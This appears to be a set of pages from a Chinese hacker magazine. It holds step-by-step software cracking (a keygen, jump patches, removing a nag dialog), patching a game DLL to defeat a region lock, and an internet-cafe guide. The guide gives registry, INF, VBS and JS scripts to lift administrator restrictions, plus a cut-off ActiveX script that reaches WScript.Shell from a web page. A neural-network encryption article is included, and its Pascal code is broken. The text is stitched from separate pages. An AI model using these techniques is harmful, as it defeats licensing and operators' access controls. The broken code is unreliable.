咱们还是趁热打铁，就用上面的数据，制作注册机，其实原理很简单：就是中断并读出寄存器或内存中的注册码。下面就跟我一起来做吧！工具是 Keymake，国产软件，还有很多其他的功能，有兴趣的不妨自己看看。

- 启动 Keymake，选择其他——另一类注册机，弹出一对话框。
- 在程序名称中选择你要制作注册机的软件。
- 单击“添加”，在中断地址中输入 00405497，中断次数为1，第一字节为8D，指令长度为4，选中“保存下列信息为注册码”，选择“内存方式”，选择寄存器为ESI，地址指针为16位，确定后添加成功。
- 在用户信息中输入作者的相关信息，单击“生成”，选择一种样式，保存。
- 将其拷贝到软件所在目录，运行，直接按“确定”，弹出一个对话框，看到了吗？是不是跟你刚才在内存里面看见的一样呀！

也许大家会不明白，我怎么知道中断地址、字节、长度等等信息，那你看看这个。

```
asm
00405492 BE78184400 mov esi, 00441878
00405497 8D442450 lea eax, dword ptr [esp+50]

```

因为当程序运行至00405497时查看ESI才能看到注册码，在其之前和之后设断都没有必要，所以中断地址就是00405497，第一字节就是这个指令机器码的第一个字节8D，指令长度就是机器码长度，2个字符表示一个字节。因为注册码是保存在ESI中，注册码长度为16位字符，所以就选择ESI寄存器，地址指针16位（这个我也不是很明白，为什么用位这个词）。同样的软件还有crackcode，原理与其类似，在这里就不介绍了。

## 四、使用W32Dasm 破解软件

在上面，我让大家看过了程序的反汇编代码，打开软件选择你要反汇编的程序，等待一会程序就被反汇编完毕。选择“GOTO——GOTO CODE LOCATION”，输入0040549B（我这里是利用了trw2000里的结果，如果我们一开始就用它破解这个软件，我们就需要得到错误信息，然后查找，再确定关键的跳转）。在这里关键的跳转我们已经分析出来了，就是上面那两个JNE（以用**标注），将其全部改为JE试试，记下其OFFSET值。用HIEW打开程序，F4选择DCODE，F5输入OFFSET，F3更改机器码，F9保存，F10退出。打开软件看看，随便输入注册码，按“确定”，“谢谢您的注册”，好亲切的词啊！

是不是觉得这样不是很舒服，每次进入软件还得按“注册”，不要紧，跟我来。

- 用EXeScope打开软件，查看Resource->Dialog->163，那要问这又是什么了。EXeScope是汉化软件时使用的，它可以查看软件使用的资源，而163就是一个对话框的标识，这个对话框就是每次启动软件时显示的，163 = A3H。
- 用W32Dasm反汇编软件，选择Refs->Dialog Reference，双击Dialog：DialogID_00A3，来到：

```
asm
Referenced by a CALL at Addresses:
:00407147 ; :0040A764 看看这两个地址，是哪里调用的。

004059E0 E855660200 call 0042C03A
004059E5 3B4C2404 mov ecx, dword ptr [esp+04]
004059E9 8B4008 mov eax, dword ptr [eax+08]
004059EC 6A00 push 00000000
* Possible StringData Ref from Data Obj -> "d"
004059EE 6800534000 push 00405300
004059F3 51 push ecx
* Possible Reference to Dialog: DialogID_00A3
004059F4 68A3000000 push 000000A3
004059F9 50 push eax
004059FA FF157C244300 call dword ptr [0043247C]
00405A00 C3 ret

```

查找后发现分别从下面两个地址转移到这里：

```
asm
00407147 E894E8FFFF call 004059E0
0040A764 E877B2FFFF call 004059E0

```

两个语句的偏移量分别是9d64h和6747h，下面要干的事就是打开HIEW，将这两个语句全部改成9090909090，其实就是nop。这样，程序就不会调用这个对话框，你也就看不见它了。

- 不信打开软件看看，注册框没了，直接使用软件了，高兴吧！你也成功地破解了一个软件了。

其实可用的方法很多，技术也有很多，我也是找了一些经常用到的软件来做个简单的介绍。相信在一番练习之后，你也会成为一个破解高手。希望大家学破解是提高自己的技术，千万不要用于非法用途啊！否则造成的一切后果与作者相关杂志及出版社无关！

通常我们主要将Crack技术用在软件注册码的破解和解除本地游戏功能限制方面，其实它在破解网络游戏客户端方面效果也是不错的，没想到吧？下文就是将Crack技术用于网络游戏的一个经典实例，而且还是一位现正读初中三年级的黑防读者所写的。在黑防的熏陶下，小小年纪能够锻炼到如此地步，确属不易。下面我们就一起来看看他是如何应用Crack技术的吧！

## 免费网络共享传奇


## Crack技术在网络游戏中的应用

文／笨鸟先黑

大概在一年前，韩国的某公司和上海某游戏公司合作，共同推出了BATTLEMARINE（欢乐潜水艇）这款游戏。开始由于是免费的，而且游戏好玩，所以玩的人数骤增，但往往免费的初衷都是为了套取玩家口袋里可怜的Money，自从收费后，大家纷纷“跑到”韩国玩免费。不久，韩国方面也开始封挡中国玩家。但是，以我们的智慧，他们又怎么封挡得了呢？

首先进入游戏目录，运行RUN.EXE文件，发现会弹出“process attach fail”的窗口。按“确定”，程序自动退出（图1）。


看到上面这个框框，或许你会感到很熟悉，没错，一般软件在显示注册码错误的时候，都会调用MessageBoxA显示错误信息，这也往往是Cracker们最喜欢利用的地方。考虑到用TRW来拦截对于新手有一定的困难，所以，笔者就使用了W32Dasm。运行W32Dasm，打开RUN.EXE，然后在串式数据参考里面找，很快就可以找到“process attach fail”，双击后，往上看会发现程序是在加载Dll文件时出错的，那封挡的代码估计就在这个Dll中了，我们就拿它开刀。

首先反汇编bmtext.dll，从函数入口跟踪，可以发现以下几行关键的代码：

```asm
10001f4f  e8acfefeff    call 10001000
```

转到10001000，发现封挡代码，如图2所示：


看到这里，我们已经发现程序有了3个分支，一个是到“10001023”，一个是到“1000104f”，一个是“继续”。让我们先看“继续”的代码，如图3所示：


请注意下面这一句：

```asm
1000100a  ff1500200010  call dword ptr [10002000]
reference to: kernel32.GetSystemDefaultLangId, ord 0158h
```

这里BM进行了系统调用，用来检查系统的默认语言，而封挡的代码也是基于这里进行的。继续往下看：

```asm
10001010  0fb7c0                movzx eax, ax
                                            ; 获得系统调用返回值
10001013  3d12040000            cmp eax, 00000412
                                            ; 将该值和0x412比较
10001018  7435                  je 1000104f
                                            ; 如果等于跳转到1000104f
1000101a  3d12080000            cmp eax, 00000812
                                            ; 将该值和0x812比较
1000101f  7533                  jne 10001054
                                            ; 如果不相等，跳转到10001054
10001021  eb2c                  jmp 1000104f
                                            ; 跳转到1000104f
```

**分析：**通过查阅MSDN，我们可以发现`GetSystemDefaultLangId`函数返回值为412或812时，对应系统默认语言为韩文。因此，可以看出以上代码是用来判断系统是否是韩文。如果是，跳转到1000104f，而不是跳转到10001054。从这里我们可以知道，封挡语句是通过判定操作系统是否为韩文操作系统来限制我们运行的。看到这里，Windows 2000/XP用户应该开怀大笑了，我们直接到区域里面把中文改为韩文就可以正常运行游戏了，但是98用户则不行。别急，继续看。

好了，第一个分支看完，让我们继续看第二个，也就是到10001023的代码，如图4所示：

注意下面的语句：


```asm
10001023  ff1500200010  call dword ptr [10002000]
reference to: kernel32.GetSystemDefaultLangId, ord 0158h
```

这个分支BM也进行了系统调用，用来检查系统的默认语言。

```asm
10001029  0fb7c0         movzx eax, ax
                                         ; 获得返回值
1000102c  3d04040000     cmp eax, 00000404
                                         ; 比较返回值是否等于0x404
10001031  7421           je 10001054
                                         ; 如果是，跳转到10001054
10001033  3d04080000     cmp eax, 00000804
10001038  741a           je 10001054
1000103a  3d040c0000     cmp eax, 00000c04
1000103f  7413           je 10001054
10001041  3d04100000     cmp eax, 00001004
10001046  740c           je 10001054
10001048  3d04140000     cmp eax, 00001404
1000104d  740c           je 10001054
```

上述代码大同小异，其实就是判断系统默认语言是否为中文（太过分了，居然专门针对我们）。如果是，跳转到10001054，如果不是，继续（从1000104f开始）。

下面看第三个分支1000104f，其实，该语句就是紧接上句的。所以，它既是一开始3个分支的一个，也是第二个分支（如果系统语言不是中文）的继续代码；同时又是第一个分支（当系统是韩文时）的继续代码。

```asm
1000104f  6a01    push 00000001
10001051  58      pop eax
10001052  eb02    jmp 10001056
```

**分析：**其实这段代码就是把eax赋值为1，然后跳转到10001056。那么，在10001056处发生了什么呢？让我们看看：

```asm
10001056  c20c00    ret 000c
```

呵呵，我们终于跟到头了，这里函数返回了，返回值就是eax中的值。

大家还记得第一个分支吗？它还有一个分支到10001054。我们看看那里发生了什么。

```asm
10001054  33c0    xor eax, eax
                                         ; 清空eax的值
```

```asm
10001046  740c    je 10001054
```

而它的下一句，就是10001056返回语句了。

下面，我们总结一下：

从bmtext.dll进入，从EntryPoint进来，一般来说，dll里面存在一个叫DllMain的函数。它里面调用了我们刚刚分析的，从10001000开始的一个子函数，而这个子函数做了以下事情：

根据输入参数，有3个分支：

1. 第一个：如果系统是韩文，返回1，否则返回0；
2. 第二个：如果系统是中文，返回0。
3. 第三个：返回1。

于是，推测参数有3个，分别对应不检测系统，只能运行于韩文系统，不能运行于中文系统。当该函数返回0时，DllMain也返回0，于是dll加载失败，提示“process attach fail”；当该函数返回1时，DllMain也返回1，于是一切正常。

进一步，如果要绕开程序的封挡，一个最容易的办法是无论系统调用返回什么，都让该子函数10001000返回1。因此，我们可以用UltraEdit打开bmtext.dll，找到以下位置处的机器码：

```asm
1000101f  7533    jne 10001054
10001031  7421    je 10001054
10001038  741a    je 10001054
1000103f  7413    je 10001054
10001046  740c    je 10001054
```

将它们修改为`jmp 1000104f`（跳转到1000104f）语句的机器码`eb**`即可。

> 这里的`**`为下条指令到104f之间的距离。譬如修改7533为EB2E，7421为EB1C等。

因为`eb**`和以上的`je`代码长度一样，所以直接改就可以了。修改后存盘，运行run.exe，程序正常进入登录页面，说明修改有效。

后来经过研究，笔者又发现其实更容易的方式是将“10001054 33c0 xor eax,eax”语句修改为`jmp 1000104f`也是可以的。

**小编：**其实直接修改10001005行的`741c`（`je 10001023`）为`EB48`也是可以的。这比前几种方法应该说简单多了。在这里修改，便是跳过了所有判断操作，而直接转到104f处执行。经小编试验，效果不错。

呵呵，看来CRACK技术不只是用来破解注册码的哦，用在网络游戏的破解中，其效果也非常明显啊。

> **编后：**
> 在网上搜索，你或许会发现有bmtext.dll文件下载，不过看完本文后，我想你应该已经知道这个补丁是如何制作的。如果你仍并不知道其所以然，其感觉是否又格外不同呢？
> 栏目编辑：Dfarts | hacker@hacker.com.cn

（上接第265页）

（3）Optional Arguments：动态链接库调用参数，这个参数对大小写是很敏感的，注意不要写错。RunDll32.exe最强大的功能应该是对控制面板的管理，可以这样说，控制面板中的任何一个选项都可以通过RunDll32.exe调用。控制面板中的各个选项实际上是以CPL为后缀名的文件单独存在的，执行文件根据操作系统的不同所处位置也有所不同，Windows 9x/MC下位于Windows安装目录下的System子目录中，而Windows NT/2000/XP下则是位于Windows安装目录下的System32子目录中。

用RunDll32显示控制面板的方法如下：在DOS窗口下输入`RunDll32.exe shell32.dll, Control_RunDLL`，将该命令行后边加上相应的参数（就是相应的CPL文件名），就可以显示控制面板中的各个控制选项。

结束语：本文的重点在于如何突破网吧中禁止下载文件，其他的问题，如：如何进入DOS方式（多数网吧将此项也禁止了），怎样避开老板的监视不被发现等问题，不在本文的探讨范围之内。

加密和解密可谓是不可分割的一个整体，正如矛与盾的关系，只有掌握了好的加密方法才能做到真正的洞悉解密技术。目前流行的加密算法很多，对Crack感兴趣的读者想必都已经如数家珍倒背如流了，今天我们就给大家准备一个特别的加密方法。

- 难度等级：中
- 前置知识：加密算法，神经网络基础

## 以神经网络为基础的一种数据序列加密方法

### 引言

对于一些重要数据，为了保证其安全性，我们需要对其进行加密。当前，数据加密算法有多种，本文采用了序列加密算法对重要数据进行加密，一是因为序列加密算法的加密密钥与解密密钥相同，操作相对简单；二是序列加密算法是基于比特流或字符流的；三是序列加密算法的保密性取决于密钥序列的随机性。由于神经网络能根据不同的训练情况，对输入空间与输出空间进行非线性的函数映射，因此，我们可以用神经网络的方法作为密钥序列产生器来进行数据加密。

### 数据加密概述

#### 1. 数据加密原理

一般的数据加密解密模型如图1所示，在加密阶段，明文X用加密算法和加密密钥Ke得到密文Y=E(X，Ke)。在保密阶段，密文截取者有可能盗取密文，但由于没有解密密钥Kd而无法将其还原成明文，从而保证数据的安全性。


#### 2. 数据加密技术分类

数据加密的技术可分为两类，即对称加密和非对称加密。对称加密的加密密钥和解密密钥相同，非对称加密的加密密钥和解密密钥不相同，加密密钥可以公开而解密密钥需要保密。在对称加密算法中，主要有序列密码加密法和分组密码加密法。

#### 3. 序列加密算法

这种加密算法将明文X看成连续的比特流（或字符流）x1、x2、x3……，在加密过程中用密钥序列K=K1，K2……中的第i个元素，对明文中的xi进行加密（图2）。


加密过程：yi=E(Ki，xi)=xi XOR Ki

解密过程：D(Ki，yi)=（xi XOR Ki）XOR Ki

从上述分析可得，序列密码加密算法的保密性取决于密钥的随机性。如果密钥是真正的随机数，则在理论上是不可破的，但是这种算法需要的密钥大得惊人，很难在实际中应用。

#### 4. 基于神经网络方法的序列加密算法模型

目前人们常用伪随机序列作为密钥，但是要求序列的周期要长，随机性要好。

神经网络经过训练后，网络就会进入到某一种稳定的状态，对于一个已定的输入，神经网络会按照某种非线性运算规则，输出一个确定值。由此，可以利用神经网络方法来产生伪随机数，同时，神经网络每次产生输出值经过发散函数处理后，作为下一次的随机种子输入到神经网络中去。

对于一个初始的随机种子，神经网络会产生一个与明文相匹配的伪随机数列。利用这种方法，可以实现一密一钥。用户在使用时，只需要知道初始随机种子就可以进行加密解密。而且在每次加密解密时，初始随机种子不同，产生的密文也不同（图3）。

#### 1. 准备阶段

在利用神经网络方法对数据进行加密之前，首先要设计或者选择某一个神经网络，包括其隐含层的层数，隐含层及输入层、输出层的神经元个数，每个神经元的初始权值以及样本值，然后对该网络进行训练，使之具有一定的分类能力。

目前，神经网络的设计和学习算法可以借助于编程语言实现，也可以借助于相应的工具，如Matlab，使用起来非常方便。经过学习后，网络中的层数、各层的神经元个数，以及每个神经元的权值等数据写入到加密盘或者数据库文件中去，为后面加密解密所用，操作过程如图4所示。


#### 2. 加密阶段

加密前，从加密盘或者数据库文件将神经网络层数，神经网络权系数数据读入到神经网络中去，生成一个用于加密的神经网络。对于初始给定的随机种子和相同的神经网络，该神经网络都会生成一个相同的伪随机数列。加密开始时，神经网络接受初始随机种子，产生第一个伪随机数作为加密密钥，与明文的第一个数进行异或运算，生成第一个密文数。然后，将第一个伪随机数经过发散函数处理，生成下一个送入到网络的随机种子——如此反复，直到所有的明文数据处理完毕。所有的明文数据处理完毕后，将初始给定的随机种子保存到文件中去。至此，整个数据加密才算完毕，其流程如图5所示。


为了提高密钥序列的周期性，本文引进了发散函数F(x)。其作用是：1) 使得任何两个函数乘积的周期都将大于等于其中一个函数的周期，即T(f(x)*g(x))>= T(f(x))，T(f(x)*g(x))>= T(g(x))。2) 若神经网络的输入与输出不一致，则需要将神经网络的输出转换为相匹配的输入。3) 尽可能使输入值不重复。T为获得函数周期的函数，f(x)、g(x)为函数。

### 神经网络加密算法描述

利用神经网络方法进行加密分为两个阶段，即准备阶段和加密阶段。

### 程序实现

本文对一个输入层为3个节点，输出层为一个节点的神经网络用Delphi对上述算法的主要部分进行了实现。在Delphi中自定义一个类TneuralNet，该类的属性有神经网络层数、每一层的节点个数、每一个节点输出函数和初始随机种子树。

其中要用到的函数有：

```pascal
PROCEDURE ReadDataToNet(Filename: String);
```


```pascal
net: TneuralNet; // 从文件读入数据到网络
PROCEDURE SaveSeedToFile(Filename: String); // 从随机种子写入到文件
FUNCTION ReadSeedFromFile(Filename: String); // 从文件中读出随机种子
FUNCTION NetOutput(input1, input2, input3: integer; net: TneuralNet): integer; // 经过神经网络计算输出一个值
PROCEDURE Fx(int: integer; Var Out1: integer; Var Out2: integer; Var Out3: integer); // 发散函数
```

// 加密函数

```pascal
PROCEDURE JiaMi(Str1: String; Var Str2: String); // 对一串数据进行加密，str1为任意长度的字符串以“#0”结束
VAR
  InitSeed1, InitSeed2, InitSeed3: Integer;
  I, Seed1, Seed2, Seed3: Integer;
  Pass, C: Char;
BEGIN
  ReadDataToNet('net.dat', Net);
  InitSeed1 := StrToInt(EditMask1.Text);
  InitSeed2 := StrToInt(EditMask2.Text);
  InitSeed3 := StrToInt(EditMask3.Text);
  Seed1 := InitSeed1;
  Seed2 := InitSeed2;
  Seed3 := InitSeed3;
  // 上述初始随机种子也可以根据日期、时间、姓名等用随机函数产生
```

```pascal
  Pass := NetOutput(InitSeed1, InitSeed2, InitSeed3, Net);
  I := 0;
  while I <> Length(Str1) do
  BEGIN
    Str2[I] := Char(Byte(Pass) xor Byte(Str1[I]));
    Fx(Pass, Seed1, Seed2, Seed3);
    Pass := NetOutput(Seed1, Seed2, Seed3, Net);
    I := I + 1;
  END;
  SaveDataToFile('seed.dat');
END;
```

```pascal
PROCEDURE JieMi(); // 对一串数据进行解密
VAR
  I, Seed1, Seed2, Seed3: Integer;
  Pass, C: Char;
BEGIN
  ReadDataToNet('net.dat', Net);
  ReadSeedFromFile('seed.dat');
  Pass := NetOutput(Seed1, Seed2, Seed3, Net);
  I := 0;
  while I <> Length(Str1) do
  BEGIN
    Str2[I] := Char(Byte(Pass) xor Byte(Str1[I]));
    Fx(Pass, Seed1, Seed2, Seed3);
    Pass := NetOutput(Seed1, Seed2, Seed3, Net);
    I := I + 1;
  END;
END;
```

### 结束语

用神经网络方法加密的优点是：1）实现了“一次一密”，安全性高；2）产生的伪随机数列的随机性高；3）加密后，密文数据量没有增加；4）密文截获者要想破译密文，必须同时知道网络结构、网络参数以及初始化随机种子，否则很难破译。但是，加密成功的好坏关键在于如何去设计一个好的网络和发散函数。你会了吗？

## 只为电脑 方想破网吧——突破网吧限制全攻略


文/supersong

现在的网吧，为防止有人搞破坏，都使用网吧管理软件进行各种限制，这本来无可厚非，但太多的限制就有画蛇添足之嫌了——这使许多“良民”也深受其害，无法尽情地冲浪互联网，最可恨的是就连“复制”、“粘贴”这类工作都无法进行，想下载文件也深受限制。许多不堪受限的“江湖”人士纷纷揭竿而起，想出来众多的突围方法。笔者也曾深受其害，这里也有几招，馈赠大家。

首先，我们要搞清楚目前的网吧都有哪些限制，然后才能照方抓药——谈它的破解方法。概括起来，网吧管理软件对我们的限制主要是无法使用右键；无法来到桌面；硬盘被隐藏；禁止下载文件；无法进入本地硬盘；不能删除文件；无法使用控制面板；下载的文件自动消失（还原精灵搞的鬼）；无法来到DOS方式。其余的限制在我看来完全是必要和应该的，笔者坚决支持禁止那些功能。针对以上几项不合理的限制，我们可以采用一些对策。对了，先要声明一点，由于各地网吧采用的网吧管理软件不一样，对功能的限制程度和手段也不一样，很“狠”的，有用“管理软件”+“超级兔子”+“还原精灵”+“手动修改注册表”一起限制的，所以提供了好几种方法，如果一种方法不行，你可以试试另外一种方法。

### 一、突破鼠标右键限制

鼠标右键实在是太重要了，很多对文件或文件夹的操作都会用到它。在这里介绍3种方法，不妨一试。

- 1. 这是在网页中遇到禁用右键时我们会经常用到的破解方法：在需要操作的文件或快捷图标上先点住右键不放，大概两秒左右再点下左键，然后松开左键，最后松开右键，这时，熟悉的右键菜单便呈现在眼前了。
- 2. 把进程管理软件如柳叶擦眼事先放在邮箱中，然后运行，检查一下，看有没有smenu.exe、smcnu.dll之类的东西，这是美萍管理软件的进程，有的话就杀掉该进程，然后就可以使用鼠标右键了。
- 3. 用鼠标右键单击选中要操作的文件或文件夹，同时按住Shift+F10键，即可显示出鼠标的右键菜单。

### 二、找回桌面

网吧管理软件如美萍，在它控制下的桌面实际上是美萍指定的一个目录，而原来的桌面则被隐藏了。要显示桌面可以在地址栏中输入：file:///c:/windows/system/显示桌面.scf；或者在IE地址栏中输入汉字“桌面”，就会打开桌面。

### 三、突破硬盘隐藏的限制

- 1. 对于限制不是很严的网吧，可以这样突破它的防线：在IE中点击“文件”下拉菜单，选择“打开”，点击“浏览”，然后在弹出对话框的“文件名”栏内输入想要打开的隐藏驱动器名。比如输入“c:\”（注意：一定要有斜杠“\”），在“文件类型”中选择“所有文件”，再回车，C盘就完完全全地展现在我们面前了。
- 2. 限制比较多的网吧，上面的方法可能就不行了，此时可以这样做：用IE浏览器浏览网页，查看网页源代码，然后将里面的内容全部删除，在其中写入如下内容：

```
reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer]
"NoDrives"=dword:00000000
```

注意：REGEDIT4 必须大写且顶格，在它下面一定要空一行。在最后一行输入完毕，记得要按一次回车，再保存文件。编辑好了以后，以“.reg”为扩展名存盘，存盘时请记得在记事本的存盘对话框中的“保存类型”选择“所有文件(*.*)”，否则会被存为 .txt 文件。之后你要做的就是导入该文件，等你再次开机时，打开“我的电脑”就会看见那可爱的 C 盘和 D 盘又回来了。

- 3. 更多的时候，网吧管理员会更改 REG 文件的打开方式（在 HKEY_LOCAL_MACHINE\Software\CLASSES\.reg 右边的窗口中更改“默认”值为“txtfile”），这样，当我们导入 .REG 文件时会发现用打开记事本了，使 .REG 文件不能用系统默认的方式打开，无法将 .REG 文件导入注册表中。


对此，我们只要用鼠标右键选中事先编辑好的 .REG 文件，与此同时按住 Shift+F10 键，在弹出菜单中选择“打开方式”，从中选取 regedit 打开（图1），就可将该 .REG 文件导入注册表，从而达到解锁的目的。

- 4. 如果网吧中将 Regedit.exe 文件改名或禁用该文件，我们还可以使用下面这个办法。把以下代码存为任意名字的 .JS 文件，使用时双击即可让隐藏的硬盘显现出来：

```
javascript
var WSHShell=WScript.CreateObject("WScript.Shell");
WSHShell.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\NoDrives",0,"reg_dword");
```

注意：在 .JS 文件中“;”不可省略。

### 四、突破禁止下载文件的限制

无法下载文件是由于 IE 被做了手脚。右击桌面上的 IE 图标，在弹出的菜单中选择“属性”，会弹出“Internet 属性”窗口，然后选择“安全”→“该区域安全级别”→“自定义级别”，会弹出“安全设置”对话框，找到“下载”，选定“文件下载”和“字体下载”中的“禁用”（图2），然后按“确定”操作则可禁止下载文件。


不过，不要期望可以通过更改 IE 设置来突破这种限制，网吧中早就将它给禁止了。一般的方法都不灵验，下面介绍几个可行的办法。

#### 1. 用 REG 文件

查看网页源代码，然后将里面的内容全部删除，在里面写入如下内容：

```
reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3]
"1803"=dword:00000000
```

将文件保存为 reg 文件，假设我们将其保存为 1.reg 文件，双击该文件会弹出如图3所示对话框，点击“确定”，会显示成功的信息（图4），这样就可以下载文件了。


#### 2. 用 INF 文件

道高一尺，魔高一丈。目前，防范比较严的网吧都会禁用 reg 文件，此时无法双击编辑好的 reg 文件写入注册表，不过，我们还是有办法解决这个难题。利用 INF 文件可轻松地突破网吧下载文件的限制，实现我们自由下载软件的目的！

打开记事本写入如下内容：

```
ini
[Version]
Signature="$CHICAGO$"

[DefaultInstall]
DelReg=Del

[Del]
HKCU,"Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3",1803
```

然后保存为以 INF 为后缀名的文件，再用鼠标右键单击它，在弹出的菜单中选择“安装”即可解除限制。

#### 3. 用 VBS 文件

然而，有些网吧会将 INF 文件也禁止，难道就没有办法了吗？No！我们还可以利用 VBScript 和 JScript 来解除限制，我们要让网吧管理软件防了东，防不了西，呵呵！先说说用 VBScript 解除限制，这是一个简单易行的方法，编辑如下内容的文件：

```
vb
Dim WSH
Set WSH=WScript.CreateObject("WScript.Shell")
WSH.Popup("为您解开无法下载文件的限制!")
WSH.RegWrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3\1803",0,"REG_DWORD"
WSH.Popup("解锁成功!")
```

保存为以 .vbs 为扩展名的文件，使用时双击即可。

#### 4. 用 JS 文件

编辑如下内容的文件：

```
javascript
var WSHShell=WScript.CreateObject("WScript.Shell");
WSHShell.Popup("自由下载文件行动开始!");
WSHShell.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Internet Settings\\Zones\\3\\1803",0,"reg_dword");
```

保存为以 .JS 为扩展名的任意文件，双击即可解除下载文件的限制。

### 五、突破对本地硬盘访问的限制

网吧中为了防止你对文件或文件夹进行操作，会将“资源管理器”或“我的电脑”给屏蔽掉，这样上网者就无法进入硬盘删除、修改、复制文件。但如果我们要建立文件或文件夹该怎么办呢？别急，你可以采用下面这些办法。要说明的是这里介绍的方法都比较新颖或可行，一些已经不可行的老方法就不介绍了，如下载软件，在下载的过程中把“下载完毕后关闭对话框”前面的“√”取消，下载完成后点击打开文件夹资源管理器就出现了，这些老方法就不介绍了。

- 1. 在IE浏览器的地址栏直接输入汉字“我的文档”，可以打开被屏蔽的资源管理器；或者在IE地址栏中输入`file:///::{7B450D8FBA-AD25-11D0-98A8-0800361B1103%7D`，也可以打开“我的文档”。
- 2. 打开自己的两个QQ，点击自己的头像，选择“传送文件”，传送完毕后会提示“是否转到文件所在”，选“是”。在这个过程中你就可以浏览硬盘，打开资源管理器。
- 3. 打开IE浏览器，将鼠标指针移到任一个超链接，待指针变为小手状后，按下左键不放，拖到任务栏上，此时鼠标指针变为内有一横线的小圆形状；千万不要放开左键，等大约5秒钟后“我的电脑”等原桌面就出来了。这个方法屡试不爽，你也试试吧。
- 4. 选定一个没有关联过的文件，按住Shift+F10键，在弹出菜单中选“打开方式”，会打开“打开方式”窗口；选“其他选项”，这时会弹出打开文件的面板，在文件名里输入“c:\”，同样可以进入硬盘。
- 5. 只要双击“计划任务”，然后在弹出的“计划任务”窗口中点击“向上”按钮就可以看到硬盘了。
- 6. 更简单的方法，可以在IE浏览器的地址栏中输入`file:///::{7B20D04FEO-3AEA-1069-A2D8-08002B30309D%7D`就可以进入“我的电脑”，或输入`file:///C:/?`，select2=c%3A%5C也有同样的效果。如果你还想访问其他硬盘，只要把///后的C改成其他盘符号就行了。
- 7. 如果网吧安装有WinZIP，那就更好办了。首先，在自己的E-mail附件中加入一个WinZip文件，该文件要尽量小些，然后下载该附件并选择解压，此时会弹出默认的`c:\unzipped`文件夹，点击“向上”就可以看到C盘，然后就可以为所欲为了。


- 8. 在IE地址栏中输入“桌面”，会打开“桌面”窗口；选中一个桌面快捷方式，点击工具栏中的“属性”按钮，我们将看见有目标和起始位置（图5）；接下来点“查找目标”按钮，这样就来到了该快捷方式所在的本地硬盘。好了，现在我们已经达到目的了。

### 六、突破不能删除文件的限制

不能删除文件也很讨厌，因为我们都知道，聊天后应该将以自己的QQ号码命名的文件夹删除，这样安全才有保证，但网吧中是不允许删除文件的，该怎么办？看以下方法：

- 1. 左键单击选中要删除的文件，按键盘上的Del键，松开按键后迅速按下Enter键。
- 2. 把一个文件改名为与欲删除的文件同名（扩展名也相同），复制此文件，来到要删除的文件所在的文件夹，点击“粘贴”，会弹出一个标题栏为“确认文件替换”的对话框（图5），点击“是”则变相删除了该文件。
- 3. 如果要到回收站中删除文件，可以在浏览器地址栏中输入`file:///::{7B645FF040-5081-101B-9F08-00AA002F954E}%7D`即可进入回收站。
- 4. 在某些网吧，对着要删除的文件按Shift+F10键，会弹出右键菜单，然后选“删除”即可。
- 5. 利用看图软件ACDSee，该软件自带有一个图像浏览器ACDSee Brower，利用它，可以实现删除、拷贝、移动文件的目的。双击任意一个图像文件打开ACDSee，它的界面与资源管理器很相似，左上窗口有Windows树型目录结构，右边主窗口为打开文件夹的内容，包括具有隐藏属性的文件。我们可以将“我的电脑”一层层展开，如果驱动器被隐藏了，可以点击“收藏”按钮，此时会出现下拉菜单，里面有各驱动器的图标，想到哪个盘，单击就行了，并且可以对文件进行复制、删除等操作。其实只要是有驱动器列表和目录列表控件的软件几乎都可以被利用，因为那是Windows的标准控件，一般是很难屏蔽的。

### 七、突破对控制面板的限制

- 1. 在浏览器的地址栏中键入`file:///c:/windows/control.exe`（这里假设Windows安装在C盘Windows文件夹下），就会出现控制面板窗口。
- 2. 在浏览器地址栏中输入`file:///::%7B20D04FE0-3AEA-1069-A2D8-08002B30309D%7D%5C::%7B21EC2020-3AEA-1069-A2DD-08002B30309D%7D`就会调出控制面板。不过，由于要输入的内容实在太长了，所以可以事先复制到记事本中保存为文件，然后发到自己的邮箱中备用。当然，抄在纸上也是个不错的方法。

### 八、突破还原精灵的限制

除了上面说的这些以外，有些网吧还安装了还原精灵，它也会给我们带来麻烦。比方说，下载一个软件安装后，软件需要重新启动电脑，但当你重新启动电脑后，却发现你的程序没有了，这是因为网吧安装了还原精灵的硬盘还原程序，对网吧来说这是必不可少的维护方案，对我们来说就是限制。


下面提供一种突破其防线的办法：安装完程序后，选择稍后重启，然后选择“开始”→“关闭系统”，选中“重新启动计算机”（图6），按住“Shift”键不放开，同时用鼠标点“是”，这样系统将不进行初始化自检，并跳过系统引导区，就可以跳过还原精灵的硬盘还原程序的干扰了。

### 九、突破无法进入 DOS 下的限制

网吧中禁止 DOS 方式是通过修改注册表来完成的。运行注册表编辑 Regedit，来到 `HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Policies\WinOldApp` 下，在其下新建 DWORD 值 `Disabled`，其键值为 1，则该用户的 “MS-DOS 方式” 被禁止；如果再新建 DWORD 值 `NoRealMode`，其键值为 1，则 MSDOS 实模式被禁止。

明白了原理，就可以用上面提到过的 Reg 文件、VBS 文件、JS 文件、INF 文件解除限制，具体方法就不说了，和上面雷同。下面介绍两个简单的方法：

- 1. 编辑一个批处理文件（`.BAT`），在里面输入 `c:\command.com`，然后运行该文件。这样，我们就可以跳入到 DOS 了（图 7）。这一招对一些采用初级限制的网吧管用。


- 2. 在 Google 搜索引擎里搜索 `msconfig.exe`（图 8），很快会找到该文件，用突破下载的方法下载回来，运行，会弹出一个对话框，选择其中的 “启动/Startup” 选项卡，就可以在程序列表中看到被自动加载的程序，如 “美萍管理软件” 或 “专家系列管理软件” 等；将其前面的 “√” 取消，重新启动电脑就可以突破网吧管理软件的限制，然后就可以进入 DOS 方式了。这一招几乎可以造成绝杀——使网吧管理软件形同虚设！
- 3. 查看所浏览网页的源代码，将里面的内容删除，然后，把下面的内容加入其中：

```
html
<script language="javaScript">
document.write("<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>");


function f(){
  a1 = document.applets[0];
  a1.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}");
  a1.createInstance();
  Sh1 = a1.GetObject();
